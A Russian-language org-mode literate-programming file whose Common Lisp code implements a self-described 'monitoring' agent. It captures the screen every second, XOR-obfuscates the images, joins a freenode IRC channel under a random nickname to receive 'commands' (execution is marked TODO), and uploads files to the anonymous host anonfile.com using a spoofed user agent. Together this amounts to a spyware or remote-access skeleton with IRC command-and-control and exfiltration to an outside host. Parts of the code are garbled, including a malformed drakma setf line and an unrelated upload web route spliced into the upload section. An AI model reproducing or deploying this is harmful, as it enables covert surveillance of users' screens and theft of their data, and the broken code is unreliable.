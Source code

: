 #+STARTUP: showall indent hidestars

* Intro

Это внешняя система мониторинга, предназначеная для наблюдения за работой
узла сети. Она отслеживает изменения экрана и некоторых файлов,
упаковывает их и отсылает управляющему серверу.

Наша основная задача - сократить количество передаваемых данных, потому
что узлов сети может быть множество и не все из них имеют быстрые каналы
передачи. Поэтому мы используем множество различных трюков для этого.

* Process

Наша задача состоит в том, чтобы:
- Осуществлять мониторинг
  - Делать снимок экрана один раз в секунду (или другой временной интервал)
  - Сравнивать его с предыдущим снимком экрана
  - Если нашлись различия - кодировать эти различия и отправлять их
  - Если различий нет - использовать освободившуюся полосу пропускания
    канала чтобы отправить больше данных уточняющих предыдущее состояние
- Запрашивать команды
  - Если команды есть выполнять их и отсылать отчет о выполнении

Для того чтобы справиться со всем этим мы будем использовать систему,
построенную на очередях, потоках и таймерах. Нам также придется
реализовать компактные форматы для передачи данных.

Пайплайн обработки следующий:
- Основной поток запускает таймер в котором будет произведен вызов
  процедуры скриншота.
- Процедура скриншота делает скриншот и кладет его в очередь
  скриншотов. После этого она сигнализирует о новом скриншоте всем, кто
  подписан на ее сообщения. После этого она реинициализирует свой таймер,
  чтобы перезапуститься через интервал задержки. Этот интервал
  динамически перестраивается в зависимости от загрузки.
- Процедура обработки получает сообщения и обрабатывает данные, передавая
  их процедуре отправки с помощью такого-же механизма
- Процедура отправки отправляет данные.
- Процедура получения команд асинхронно обрабатывает команды по мере их
  поступления.

* Base

Начнем с создания основным потоком таймера, который будет запускать
процедуру скриншота. После создания запланируем этот таймер

#+NAME: base
#+BEGIN_SRC lisp :noweb yes
  <<x_display>>

  <<shot_func>>

  (defparameter *shot-timer*
    (make-timer #'(lambda ()
                    (shot-func))
                :name "shot" :thread t))

  (defparameter *irc-user* (format nil "sham_~A" (get-universal-time)))
  (defparameter *irc-serv* "irc.freenode.org")
  (defparameter *irc-chan* "#nvrtlessfndout")
  (defparameter *irc-lock* (bt:make-lock "irc-lock"))

  (defparameter *irc-conn*
    (cl-irc:connect :nickname *irc-user* :server *irc-serv*))

  (defun irc-func ()
    (cl-irc:read-message-loop *irc-conn*))

  (defparameter *irc-thread*
    (bt:make-thread (lambda ()
                      (irc-func))
                    :name "irc-thread"
                    :initial-bindings
                    `((*standard-output* . ,*standard-output*)
                      (*irc-user* . ,*irc-user*)
                      (*irc-serv* . ,*irc-serv*)
                      (*irc-chan* . ,*irc-chan*)
                      (*irc-conn* . ,*irc-conn*))))

  ;; get all slots by class name
  ;; (ql:quickload "closer-mop")
  ;; (mapcar #'closer-mop:slot-definition-name
  ;;         (closer-mop:class-slots
  ;;          (find-class 'cl-irc:IRC-PRIVMSG-MESSAGE)))

  (defparameter *irc-cmd*
    (lambda (param)
      ;; (format t "~%<:3333[~A]:>~%" param)
      ;; (format t "~A: ~A" "CL-IRC:SOURCE" (CL-IRC:SOURCE param))
      ;; (format t "~%~A: ~A" "CL-IRC:USER" (CL-IRC:USER param))
      ;; (format t "~%~A:~A" "CL-IRC:HOST" (CL-IRC:HOST param))
      ;; (format t "~%~A:  ~A" "CL-IRC:COMMAND" (CL-IRC:COMMAND param))
      ;; (format t "~%~A: ~A" "CL-IRC:ARGUMENTS" (CL-IRC:ARGUMENTS param))
      ;; (format t "~%~A: ~A" "CL-IRC:CONNECTION" (CL-IRC:CONNECTION param))
      ;; (format t "~%~A: ~A" "CL-IRC:RECEIVED-TIME" (CL-IRC:RECEIVED-TIME param))
      ;; (format t "~%---------------")
      ;; (format t "~%~A:~A" "CL-IRC:RAW-MESSAGE-STRING"
      ;;         (CL-IRC:RAW-MESSAGE-STRING param))
      ;; (format t "~%===================")
      (let ((msg (cadr (CL-IRC:ARGUMENTS param))))
        (format t "~%::COMMAND::~A::" msg))
      (finish-output)))

  (defun irc-msg-hook (param)
    "MUST return T for stop hooks processing"
    (funcall *irc-cmd* param)
    t)

  (cl-irc:add-hook *irc-conn* 'cl-irc:IRC-PRIVMSG-MESSAGE #'irc-msg-hook)

  (sleep 3)

  (bt:with-lock-held (*irc-lock*)
    (cl-irc:join *irc-conn* *irc-chan*))

  (sleep 3)

  (bt:with-lock-held (*irc-lock*)
    (cl-irc:privmsg *irc-conn* *irc-chan* "start"))

  ;; (schedule-timer *shot-timer* 0.5)
#+END_SRC

** X-Display

Этот раздел описывает библиотечные функции, которые необходимы для
получения снимков экрана

Работа с экраном через ~xlib~:
- Получение размеров экрана
- Получение снимков экрана

После получения размеров экрана мы сохраняем их в глобальные переменные
вида ~default-*~, чтобы после работать с ними напрямую - за это отвечает
вызов функции ~init-defaults~.

При формировании скришота мы перекодируем его функцией
~raw-image->png~. При оптимизации эту перекодировку следует удалить,
чтобы ускорить работу, но пока нам требуется отлаживаемость а не
скорость.

#+NAME: x_display
#+BEGIN_SRC lisp :padline no
  (defmacro with-display (host (display screen root-window) &body body)
    `(let* ((,display (xlib:open-display ,host))
            (,screen (first (xlib:display-roots ,display)))
            (,root-window (xlib:screen-root ,screen)))
       (unwind-protect (progn ,@body)
         (xlib:close-display ,display))))

  (defmacro with-default-display ((display &key (force nil)) &body body)
    `(let ((,display (xlib:open-default-display)))
       (unwind-protect
            (unwind-protect
                 ,@body
              (when ,force
                (xlib:display-force-output ,display)))
         (xlib:close-display ,display))))

  (defmacro with-default-display-force ((display) &body body)
    `(with-default-display (,display :force t) ,@body))

  (defmacro with-default-screen ((screen) &body body)
    (let ((display (gensym)))
      `(with-default-display (,display)
         (let ((,screen (xlib:display-default-screen ,display)))
           ,@body))))

  (defmacro with-default-window ((window) &body body)
    (let ((screen (gensym)))
      `(with-default-screen (,screen)
         (let ((,window (xlib:screen-root ,screen)))
           ,@body))))

  (defun x-size ()
    (with-default-screen (s)
      (values
       (xlib:screen-width s)
       (xlib:screen-height s))))

  (defparameter *default-x* 0)
  (defparameter *default-y* 0)
  (defparameter *default-width* 800)
  (defparameter *default-height* 600)

  (defun init-defaults ()
    (multiple-value-bind (width height)
        (x-size)
      (setf *default-width* width
            ,*default-height* height
            ,*default-x* 0
            ,*default-y* 0)))

  (init-defaults)

  (defun raw-image->png (data width height)
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type :truecolor-alpha
                               :image-data data))
           (data (zpng:data-array png)))
      (dotimes (y height)
        (dotimes (x width)
          ;; BGR -> RGB, ref code: https://goo.gl/slubfW
          ;; diffs between RGB and BGR: https://goo.gl/si1Ft5
          (rotatef (aref data y x 0) (aref data y x 2))
          (setf (aref data y x 3) 255)))
      png))

  (defun x-snapshot (&key (x *default-x*) (y *default-y*)
                       (width  *default-width*) (height *default-height*)
                       path)
    ;; "Return RGB data array (The dimensions correspond to the height, width,
    ;; and pixel components, see comments in x-snapsearch for more details),
    ;; or write to file (PNG only), depend on if you provide the path keyword"
    (with-default-window (w)
      (let ((image
             (raw-image->png
              (xlib:get-raw-image w :x x :y y
                                  :width width :height height
                                  :format :z-pixmap)
              width height)
            ))
        (if path
            (let* ((ext (pathname-type path))
                   (path
                    (if ext
                        path
                        (concatenate 'string path ".png")))
                   (png? (or (null ext) (equal ext "png"))))
              (cond
                (png? (zpng:write-png image path))
                (t (error "Only PNG file is supported"))))
            (zpng:data-array image)))))

  ;; (x-snapshot :path "x-snapshot-true-color.png")
#+END_SRC

* Snaphot function

Сама функция скриншота должна сделать скриншт и обработать его, а потом
реинициализировать свой таймер

#+NAME: shot_func
#+BEGIN_SRC lisp :noweb yes
  <<pack_image>>
  <<unpack_image>>

  (defun seq-xor (len seq-1 seq-2)
    (let ((result (make-array len :element-type '(unsigned-byte 8))))
      (do ((idx 0 (incf idx)))
          ((= idx len))
        (setf (aref result idx)
              (logxor (aref seq-1 idx)
                      (aref seq-2 idx))))
      result))

  (defun save (frmt-filename-str dims image)
    (let* ((height (car dims))
           (width  (* 8 (cadr dims))) ;; tmp: for unpack image
           (unpacked-image (unpack-image image))
           (png (get-png-obj width height unpacked-image :grayscale))
           (png-seq (get-png-sequence png))
           (png-len (length png-seq))
           (seed (get-universal-time))
           (encoder (prbs:byte-gen 31 :seed seed))
           (enc-gamma (funcall encoder png-len))
           (encoded (seq-xor png-len png-seq enc-gamma))
           (base64 (cl-base64:usb8-array-to-base64-string encoded))
           (unbase64 (cl-base64:base64-string-to-usb8-array base64))
           (decoder (prbs:byte-gen 31 :seed seed))
           (dec-gamma (funcall decoder png-len))
           (decoded (seq-xor (length unbase64) unbase64 dec-gamma))
           (unk-filename (format nil frmt-filename-str
                                 (format nil "~A-~A-~A-"
                                         (gensym) seed png-len))))
      ;; (alexandria:write-string-into-file
      ;;  base64 unk-filename :if-exists :supersede  :external-format :utf-8)
      (with-open-file (file-stream unk-filename
                                   :direction :output
                                   :if-exists :supersede
                                   :if-does-not-exist :create
                                   :element-type '(unsigned-byte 8))
        (write-sequence decoded file-stream)
        (cl-irc:privmsg *irc-conn* *irc-chan* "qwe"))
      ))

  ;; START: send to irc
  ;; (ql:quickload "cl-irc")

  ;; TODO: receive from irc
  ;; TODO: execute commands
  ;; TODO: offline mode

  ;; (let ((prev)
  ;;       (cnt 9999))
  ;;   (defun shot-func ()
  ;;     (format t "~%::shot-func")
  ;;     (let* ((snap (pack-image (x-snapshot)))
  ;;            (dims (array-dimensions snap)))
  ;;       (if (> cnt 4)
  ;;           (progn
  ;;             (save "FILE~A" dims snap)
  ;;             (setf prev snap)
  ;;             (setf cnt 0))
  ;;           ;; else
  ;;           (let ((xored (make-array dims :element-type '(unsigned-byte 8))))
  ;;             (do ((qy 0 (incf qy)))
  ;;                 ((= qy (car dims)))
  ;;               (declare (type fixnum qy))
  ;;               (do ((qx 0 (incf qx)))
  ;;                   ((= qx (cadr dims)))
  ;;                 (declare (type fixnum qx))
  ;;                 (setf (aref xored qy qx)
  ;;                       (logxor (aref prev qy qx)
  ;;                               (aref snap qy qx)))))
  ;;             (save "FILE~ADIFF" dims xored)
  ;;             (setf prev snap)
  ;;             (incf cnt))))
  ;;     ;; re-schedule times
  ;;     (schedule-timer *shot-timer* 1 :absolute-p nil)))

#+END_SRC

** Packing image

Нам нужна функция, для быстрой упаковки изображения. Она не тривиальна.

Мы берем полноцветное изображение и используем два вложенных цикла,
проходя по ~Y~ и ~X~ чтобы обработать каждую точку. После обработки одна
точка должна занимать только один бит.

Мы также должны упаковать по восемь точек в байт, но если размер
изображения в точках не кратен байту, то нужно дополнить недостающие
точки. За это отвечате внутренний макрос ~byte-finiser~, который
вызывается по мере накопления значений в байте и в конце обработки
строки, если это необходимо.

#+NAME: pack_image
#+BEGIN_SRC lisp
  (defun pack-image (image)
    (declare (optimize (speed 3) (safety 0)))
    (let* ((dims (array-dimensions image))
           (height (car dims))
           (width (cadr dims))
           (new-width (ash (logand (+ width 7) (lognot 7)) -3))
           (need-finisher (not (equal new-width (ash width -3))))
           (result (make-array (list height new-width)
                               :element-type '(unsigned-byte 8)))
           (bp 8)
           (acc 0))
      (declare (type (unsigned-byte 8) acc)
               (type fixnum bp)
               (type fixnum width)
               (type fixnum new-width)
               (type fixnum height))
      (macrolet ((byte-finisher (acc qy qx bp)
                   `(progn
                      ;; (format t "~8,'0B(~2,'0X)" ,acc ,acc)
                      (setf (aref result ,qy (ash ,qx -3)) ,acc)
                      (setf ,acc 0)
                      (setf ,bp 8))))
        (do ((qy 0 (incf qy)))
            ((= qy height))
          (declare (type fixnum qy))
          (do ((qx 0 (incf qx)))
              ((= qx width) (when need-finisher
                              (byte-finisher acc qy qx bp)))
            (declare (type fixnum qx))
            (let* ((avg (floor (+ (aref image qy qx 0)
                                  (aref image qy qx 1)
                                  (aref image qy qx 2))
                               3))
                   (pnt (ash avg -7)))
              (declare (type fixnum avg))
              (declare (type fixnum pnt))
              (decf bp)
              (setf acc (logior acc (ash pnt bp)))
              (when (= bp 0)
                (byte-finisher acc qy qx bp))))
          ;; (format t "~%")
          ))
      result))

  ;; (disassemble 'pack-image)

  ;; TEST: pack-image
  ;; (time
  ;;  (let* ((image (pack-image (x-snapshot)))
  ;;         (dims (array-dimensions image)))
  ;;    (save-png (cadr dims)
  ;;              (car dims)
  ;;              (format nil "~A" (gensym "FILE"))
  ;;              image
  ;;              :grayscale)))
#+END_SRC

** Save and Load

Для целей отладки нам нужно уметь сохранять и загружать png-изображения

#+NAME: save_and_load_png
#+BEGIN_SRC lisp
  (defun get-png-obj (width height image &optional (color-type :truecolor-alpha))
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type color-type))
           (vector (make-array ;; displaced vector - need copy for save
                    (* height width (zpng:samples-per-pixel png))
                    :displaced-to image :element-type '(unsigned-byte 8))))
      ;; Тут применен потенциально опасный трюк, когда мы создаем
      ;; объект PNG без данных, а потом добавляем в него данные,
      ;; используя неэкспортируемый writer.
      ;; Это нужно чтобы получить третью размерность массива,
      ;; который мы хотим передать как данные и при этом
      ;; избежать создания для этого временного объекта
      (setf (zpng::%image-data png) (copy-seq vector))
      png))

  (defun get-png-sequence (png)
    (flex:with-output-to-sequence (stream)
      (zpng:write-png-stream png stream)))

  ;; DEPRECATED, use explicit saving png-sequence by with-open-file
  ;; (defun save-png (pathname-str png)
  ;;   (zpng:write-png png pathname-str))

  (defun load-png (pathname-str)
    "Возвращает массив size-X столбцов по size-Y точек,
       где столбцы идут слева-направо, а точки в них - сверху-вниз
       ----
       В zpng есть указание на возможные варианты COLOR:
       ----
             (defmethod samples-per-pixel (png)
               (ecase (color-type png)
                 (:grayscale 1)
                 (:truecolor 3)
                 (:indexed-color 1) ;; НЕ ПОДДЕРЖИВАЕТСЯ
                 (:grayscale-alpha 2)
                 (:truecolor-alpha 4)))
      "
    (let* ((png (png-read:read-png-file pathname-str))
           (image-data (png-read:image-data png))
           (color (png-read:colour-type png))
           (dims (cond ((or (equal color :truecolor-alpha)
                            (equal color :truecolor))
                        (list (array-dimension image-data 1)
                              (array-dimension image-data 0)
                              (array-dimension image-data 2)))
                       ((or (equal color :grayscale)
                            (equal color :greyscale))
                        (list (array-dimension image-data 1)
                              (array-dimension image-data 0)))
                       (t (error 'unk-png-color-type :color color))))
           (result ;; меняем размерности X и Y местами
            (make-array dims :element-type '(unsigned-byte 8))))
      ;; (dbg "~% new-arr ~A "(array-dimensions result))
      ;; ширина, высота, цвет => высота, ширина, цвет
      (macrolet ((cycle (&body body)
                   `(do ((y 0 (incf y)))
                        ((= y (array-dimension result 0)))
                      (do ((x 0 (incf x)))
                          ((= x (array-dimension result 1)))
                        ,@body))))
        (cond ((or (equal color :truecolor-alpha)
                   (equal color :truecolor))
               (cycle (do ((z 0 (incf z)))
                          ((= z (array-dimension result 2)))
                        (setf (aref result y x z)
                              (aref image-data x y z)))))
              ((or (equal color :grayscale)
                   (equal color :greyscale))
               (cycle (setf (aref result y x)
                            (aref image-data x y))))
              (t (error 'unk-png-color-type :color color)))
        result)))
#+END_SRC

** Bit-vector operations

Для целей отладки определим операции кодирования в битовый вектор и
обратно

#+NAME: bit_vector
#+BEGIN_SRC lisp
  (defun bit-vector->integer (bit-vector)
    "Create a positive integer from a bit-vector."
    (reduce #'(lambda (first-bit second-bit)
                (+ (* first-bit 2) second-bit))
            bit-vector))

  (defun integer->bit-vector (integer)
    "Create a bit-vector from a positive integer."
    (labels ((integer->bit-list (int &optional accum)
               (cond ((> int 0)
                      (multiple-value-bind (i r) (truncate int 2)
                        (integer->bit-list i (push r accum))))
                     ((null accum) (push 0 accum))
                     (t accum))))
      (coerce (integer->bit-list integer) 'bit-vector)))
#+END_SRC

** Binarization

Получение черно-белого изображения или в градациях серого из
полноцветного.

Здесь остается пространство для оптимизаций путем применения
SIMD-операций.

#+NAME: binarization
#+BEGIN_SRC lisp
  (defun binarization (image &optional threshold)
    (let* ((dims (array-dimensions image))
           (new-dims (cond ((equal 3 (length dims))  (butlast dims))
                           ((equal 2 (length dims))  dims)
                           (t (error 'binarization-error))))
           (result (make-array new-dims :element-type '(unsigned-byte 8))))
      (macrolet ((cycle (&body body)
                   `(do ((y 0 (incf y)))
                        ((= y (array-dimension image 0)))
                      (do ((x 0 (incf x)))
                          ((= x (array-dimension image 1)))
                        ,@body))))
        (cond ((equal 3 (length dims))
               (cycle (do ((z 0 (incf z)))
                          ((= z (array-dimension image 2)))
                        (let ((avg (floor (+ (aref image y x 0)
                                             (aref image y x 1)
                                             (aref image y x 2))
                                          3)))
                          (when threshold
                            (if (< threshold avg)
                                (setf avg 255)
                                (setf avg 0)))
                          (setf (aref result y x) avg)))))
              ((equal 2 (length dims))
               (cycle (let ((avg (aref image y x)))
                        (when threshold
                          (if (< threshold avg)
                              (setf avg 255)
                              (setf avg 0)))
                        (setf (aref result y x) avg))))
              (t (error 'binarization-error))))
      result))

  ;; TEST: binarize and save screenshot
  ;; (let* ((to   "x-snapshot-binarize.png")
  ;;        (image-data (binarization (x-snapshot) 127))) ;; NEW: threshold!
  ;;   (destructuring-bind (height width) ;; NB: no depth!
  ;;       (array-dimensions image-data)
  ;;     (save-png width height to image-data :grayscale))) ;; NB: grayscale!


  ;; TEST: binarize get png and save
  ;; (print
  ;;  (let* ((image-data (binarization (x-snapshot) 127))) ;; NEW: threshold!
  ;;    (destructuring-bind (height width) ;; NB: no depth!
  ;;        (array-dimensions image-data)
  ;;      (let ((seq (get-png width height image-data :grayscale)))
  ;;        (with-open-file (file-stream "tee.png"
  ;;                                     :direction :output
  ;;                                     :if-exists :supersede
  ;;                                     :if-does-not-exist :create
  ;;                                     :element-type '(unsigned-byte 8))
  ;;          (write-sequence seq file-stream))))))
#+END_SRC

** Bit-image

Упаковка бинаризованного черно-белого изображения в битовый массив

#+NAME: make_bit_image
#+BEGIN_SRC lisp
  (defun make-bit-image (image-data)
    (destructuring-bind (height width &optional colors)
        (array-dimensions image-data)
      ;; функция может работать только с бинарными изобажениями
      (assert (null colors))
      (let* ((new-width (+ (logior width 7) 1))
             (bit-array (make-array (list height new-width)
                                    :element-type 'bit
                                    :initial-element 1)))
        (do ((qy 0 (incf qy)))
            ((= qy height))
          (do ((qx 0 (incf qx)))
              ((= qx width))
            ;; если цвет пикселя не белый, считаем,
            ;; что это не фон и заносим в битовый массив 1
            (if (equal (aref image-data qy qx) 255)
                (setf (bit bit-array qy qx) 1)
                (setf (bit bit-array qy qx) 0))))
        bit-array)))

  ;; TEST: make-bit-image
  ;; (print
  ;;  (make-bit-image
  ;;   (binarization (x-snapshot :x 0 :y 0 :width 30 :height 30) 127)))
#+END_SRC

** Unpack image

#+NAME: unpack_image
#+BEGIN_SRC lisp
  (defun unpack-image (image)
    (declare (optimize (speed 3) (safety 0)))
    (let* ((dims (array-dimensions image))
           (height (car dims))
           (width (cadr dims))
           (new-width (ash width 3))
           (result (make-array (list height new-width)
                               :element-type '(unsigned-byte 8))))
      (declare (type fixnum width)
               (type fixnum new-width)
               (type fixnum height))
      (do ((qy 0 (incf qy)))
          ((= qy height))
        (declare (type fixnum qy))
        (do ((qx 0 (incf qx)))
            ((= qx width))
          (declare (type fixnum qx))
          (let ((acc (aref image qy qx)))
            (declare (type (unsigned-byte 8) acc))
            ;; (format t "~8,'0B" acc)
            (do ((out 0 (incf out))
                 (in  7 (decf in)))
                ((= 8 out))
              (declare (type fixnum out in))
              (unless (= 0 (logand acc (ash 1 in)))
                (setf (aref result qy (logior (ash qx 3) out))
                      255)))))
        ;; (format t "~%")
        )
      result))

  ;; TEST
  ;; (print
  ;;  (unpack-image
  ;;   (pack-image
  ;;    (x-snapshot :width 31 :height 23))))

  ;; TEST
  ;; (time
  ;;  (let* ((image  (load-png "FILE1088"))
  ;;         (unpack (unpack-image image))
  ;;         (dims (array-dimensions unpack)))
  ;;    (save-png (cadr dims)
  ;;              (car dims)
  ;;              (format nil "~A" (gensym "FILE"))
  ;;              unpack
  ;;              :grayscale)))
#+END_SRC

** Upload image

#+NAME: upload_image
#+BEGIN_SRC lisp
  (setf drakma:*header-stream* *standard-output*)

  (defparameter *user-agent* "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0")

  (defparameter *user-agent* "curl/7.47.0")

  (defparameter *additional-headers*
    `(("Accept" . "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8")
      ("Accept-Language" . "ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3")
      ("Accept-Charset" . "utf-8")))

  (defun get-csrf (text)
    (loop :for str :in (split-sequence:split-sequence #\Newline text)
       :do (multiple-value-bind (match-p result)
               (ppcre:scan-to-strings "(?m)app_csrf_token\\s+=\\s+\"(.*)\";" str)
             (when match-p (return (aref result 0))))))

  (defun get-cookies-alist (cookie-jar)
    "Получаем alist с печеньками из cookie-jar"
    (loop :for cookie :in (drakma:cookie-jar-cookies cookie-jar) :append
         (list (cons (drakma:cookie-name cookie) (drakma:cookie-value cookie)))))

  (let ((cookie-jar (make-instance 'drakma:cookie-jar)))
    (multiple-value-bind (body-or-stream status-code headers
                                         uri stream must-close reason-phrase)
        (drakma:http-request "https://anonfile.com/"
                             :user-agent *user-agent*
                             :redirect 10
                             :force-binary t
                             :cookie-jar cookie-jar
                             :additional-headers *additional-headers*)
      (let* ((text (flexi-streams:octets-to-string body-or-stream
                                                   :external-format :utf-8))
             (csrf (get-csrf text))
             (new-headers `(("Accept" . "application/json")
                            ("Accept-Language" . "en-US,en;q=0.5")
                            ("Cache-Control" . "no-cache")
                            ("X-Requested-With" . "XMLHttpRequest")
                            ("X-CSRF-Token" . ,csrf)
                            ("Origin" . "https://anonfile.com")
                            ("Referer" . "https://anonfile.com/")
                            ("TE" . "Trailers"))))
        (multiple-value-bind (body-or-stream status-code headers
                                             uri stream must-close reason-phrase)
            (drakma:http-request
             "https://api.anonfile.com/upload"
             ;; "http://localhost:9993/upload"
             :user-agent *user-agent*
             :method :post
             :form-data t
             :parameters `(("file" .  (,#P"test.txt"
                                          :content-type "application/octet-stream"
                                          :filename ,#P"test.txt"
                                          )))
             :cookie-jar cookie-jar
             :additional-headers new-headers
             ;; :external-format-in :UTF-8
             ;; :external-format-out :UTF-8
             :force-binary t)
          (let* ((text (flexi-streams:octets-to-string body-or-stream
                                                       :external-format :utf-8)))
            (format t "~%<<~A>>" text))))))


  (alexandria:write-string-into-file
   (cl-base64:usb8-array-to-base64-string
    (alexandria:read-file-into-byte-vector #P"png.png"))
   #P"test.txt" :if-exists :supersede :external-format :utf-8)

  (alexandria:write-byte-vector-into-file
   (cl-base64:base64-string-to-usb8-array
    (alexandria:read-file-into-string #P"test.txt" :external-format :utf-8))
   #P"test2" :if-exists :supersede)


  ;; (print (get-cookies-alist cookie-jar))
  ;; (print headers)
  (setf drakma" . "drakma-default-external-format* :UTF-8)

  (in-package :rigidus)

  (ql:quickload "rigidus")

  (restas:define-route upload ("/upload")
    "<form enctype=\"multipart/form-data\" method=\"post\">
     <input type=\"file\" name=\"file\">
     <input type=\"submit\" value=\"Отправить\">
     </form>")

  (restas:define-route upload-post ("/upload" :method :post)
    (let ((file-info (hunchentoot:post-parameter "file")))
      ;; (hunchentoot:escape-for-html
      ;;  (alexandria:read-file-into-string (first file-info)))
      (format nil "~A"
              (bprint file-info))))
#+END_SRC

* Assembly

#+NAME:
#+BEGIN_SRC lisp :tangle srv.lisp :noweb yes
  (ql:quickload "bordeaux-threads")
  (ql:quickload "clx")
  (ql:quickload "zpng")
  (ql:quickload "png-read")
  (ql:quickload "drakma")
  (ql:quickload "cl-ppcre")
  (ql:quickload "cl-base64")
  (ql:quickload "prbs")
  (ql:quickload "cl-irc")

  <<save_and_load_png>>
  <<binarization>>
  <<make_bit_image>>
  <<pack_image>>

  <<base>>
#+END_SRC
